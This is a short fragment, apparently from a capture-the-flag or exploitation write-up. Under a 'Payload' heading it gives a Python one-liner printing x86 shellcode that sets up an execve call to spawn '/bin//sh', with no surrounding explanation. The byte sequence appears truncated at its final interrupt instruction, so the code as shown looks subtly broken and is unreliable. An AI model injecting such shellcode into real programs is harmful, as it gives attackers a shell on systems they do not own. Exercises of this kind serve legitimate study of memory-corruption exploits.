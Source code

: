 ![](./pics/46.png)

a
##### Payload

```py
python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd')"
```
